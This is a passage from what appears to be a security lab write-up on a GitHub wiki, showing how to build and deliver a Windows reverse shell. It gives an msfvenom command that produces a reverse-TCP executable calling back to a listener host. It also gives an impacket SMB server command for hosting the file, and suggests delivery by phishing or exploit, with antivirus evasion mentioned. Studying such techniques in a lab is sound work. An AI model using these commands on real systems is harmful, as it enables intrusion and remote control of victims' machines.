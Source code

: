#### Creating a simple reverse shell

As in a real case we don't have at this moment an interactive GUI or shell access on the Windows Server.Even if today people are more aware than before on suspect mails, we will create a simple reverse shell to run commands remotely to the Windows Server system.

As we checked previously the SMB port is opened. We can exploit vulnerabilities in the SMB protocol to execute malicious code.

We generate a custom payload to open a reverse shell to the Windows machine. [Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015. It is a great tool for generating shellcode quickly, with both encryption and/or encoding options available to help prevent AV detection.

We are going to use the `shell_reverse_tcp` payload for the x64 architecture opened on port 4444. It will output a file called `reverse.exe` which will be executed at any moment by a user, given that he is not aware of the consequences.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.80.0.17 LPORT=4444 -f exe -o reverse.exe
```

![msfvenom](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img6.jpeg?raw=true)

Then we are going to host it and deliver it via SMB share, phishing, RCE exploit:

```bash
sudo impacket-smbserver share $(pwd)
```

![smb server](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img7.jpeg?raw=true)
